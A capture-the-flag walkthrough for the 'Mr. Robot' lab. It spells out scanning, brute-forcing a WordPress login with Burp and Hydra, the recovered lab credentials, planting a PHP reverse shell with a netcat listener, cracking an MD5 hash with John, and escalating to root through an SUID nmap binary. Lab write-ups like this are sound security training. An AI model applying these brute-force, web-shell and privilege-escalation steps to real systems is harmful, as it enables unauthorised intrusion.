# [Mr. Robot CTF][1]

#### Scan the Machine
> If you are unsure how to tackle this, I recommend checking out the [Nmap Tutorials by Hack Hunt][2].

`nmap -sV -Pn <IP>`



Looks like we have two ports open: `80, 443`

> Let's check the webpage. The webpage is fascinating but nothing much to work with.

Run a GoBuster -> `gobuster dir -u http://<IP> -w /usr/share/wordlists/dirb/common.txt -t 50`

It will take few minutes to finish and you will get a lot of directories. The important ones are:
- /robots.txt
- /license -> *This is fascinating page, must check* :stuck_out_tongue_winking_eye:
- /login
- /wp_login

#### ROBOTS.TXT


- `key-1-of-3.txt`: Open the file, there is your first key.
- `fsocity.dic`: Download the file. I opened the file looks like a lots of words.



#### LICENSE
Sorry! for wasting your time there.

#### LOGIN
> It seems a redirection to **wp-login.php**.



Putting pieces together:
- **Dictionary** with a lot of Words.
- **Login** Page.

> Vola! We can bruteforce. Dictionary is a key/value pair, so it can have username and password both. Fireup your **BurpSuite**

We can bruteforce **username** and **password** together but the total combination will be to much. So first we will try `username` and then `password`.

1. Intercept the reqeust.
2. Send it to Intruder.
3. Add only username.



4. Select `fsocity.dic` as a payload and start the attack.



> ***BAAM! Username found.*** It's **Elliot** *(obviously)*.

Now that we have username, we can run the same attack for password. HEADSUP! I did that and it took like forever. Therefore, I recommend you guys to use Hydra -> `hydra -l Elliot -P fsocity.dic 10.10.51.99 http-form-post "/wp-login.php:log=^USER^&pwd=^PWD^: The password you entered"`
> You can get the `log=` part from the BurpSuite when you intercepted the request.

The reason is, it will take too much time as the password is at line **858,151**. Password is ***ER28-0652*** *(this is Elliot's Employee Number)*



Log in with `Elliot:ER28-0652`.  


> We have the access to the PANEL. Search around and look for something interesting.

After spending a bit of time around. I found an injection point as Image Upload. I tried different things but it was hard-coded. Later, I found the page edit option `Appearance > Editor`; which has `.php` file.

So can we can add [reverse-shell.php][3] in any of the pages. I will be using `404.php` but you can also use any other `.php`.



Paste the [reverse-shell][3] code and change the `IP` to your IP and the `PORT`.



Before opening the page, start a netcat listener using cmd `nc -lvnp 4444`



Save the webpage and go to `http://<IP>/404.php`. You will see a connection. First things First, we will stable the shell using `python -c 'import pty;pty.spwan("/bin/bash")'`



There is flag in `/home/robot` but we do not have permission to read it.



But we do have permission to read `password.raw-md5` file.



Looks like user `robot` and its password hashed as `Raw-MD5`. We can crack this using [Crack Station][4] or ***JohnTheRipper*** -> `john hash.txt --wordlist=fsocity.dic --format=Raw-MD5`.


> I used [Crack Station][3]. Credential -> `robot:abcdefghijklmnopqrstuvwxyz`

We can login as `robot` using `su` command.



Now that we have access as `robot`, we can read `key-2-of-3.txt`.



### Privilege Escalation

Didn't found anything interesting using `sudo -l`, so I tried looking for **SUIDs** using `find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \; | grep '/bin'`
> Reference -> [PayloadsAllTheThings][5]



Nmap is available, wonder if Hint was for this one. Go to [GTFOBins][6] and search for **Nmap**. I ran **(b)** script of Shell section.



You know what to do next :stuck_out_tongue_winking_eye:



[1]: https://tryhackme.com/room/teamcw
[2]: https://www.hackhunt.in/search/label/Nmap
[3]: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
[4]: https://crackstation.net/
[5]: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#suid
[6]: https://gtfobins.github.io/
